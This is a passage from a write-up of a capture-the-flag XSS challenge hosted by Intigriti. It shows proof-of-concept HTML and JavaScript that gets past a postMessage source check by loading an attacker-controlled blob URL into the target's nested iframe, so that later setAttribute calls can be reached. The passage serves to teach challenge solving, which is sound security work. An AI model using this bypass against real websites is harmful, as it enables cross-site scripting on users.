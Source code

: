 But the point of this challenge is to proof to have control over `challenge-0922.intigriti.io` not some random
3rd party domain. So we are not done yet. 

The blob thing is still cool. Can it help us to trick
```
window.addEventListener('message', e => {
  if (e.source !== document.querySelector('#ball').contentWindow){
    e.stopImmediatePropagation();
  }
});
```
and finally get to the `setAttribute`, `removeAttribute` part? Well, we could load into the 
`<iframe>`(`magic.php` with the id of `ball`) a blob URL which we have full 
control over. And from that "blobbed" file we will then
send a `postMessage` to the parent. This way `e.source` will be equal to 
`document.querySelector('#ball').contentWindow`

Like this https://editor.43z.one/t39xj
```
<iframe onload=run() src="https://challenge-0922.intigriti.io/challenge/"></iframe>
<script>
  run = e => {
    burl = URL.createObjectURL(new Blob([`
      <script>
        parent.postMessage('hello!', '*') 
      <\/script>
    `], {type : 'text/html'}))
    frames[0][0].location = burl 
  }
</script>
```
If we check the console we will see the `hello!` printed. This comes directly from the
default case of the `switch` statement we wanted to get at. That also means we successfully tricked
the if clause.
```
if (e.source !== document.querySelector('#ball').contentWindow){
  e.stopImmediatePropagation();
}
```
and got until here

```
addEventListener('message', e => {
  switch(e.data.action){
    ...
    default:
      console.log(e.data); // <------- We've come so far
  }
});
```
It took long to get there but what's next? Now that we could finally make
use of the `setAttribute` function call by just sending the correct object
with `postMessage`.
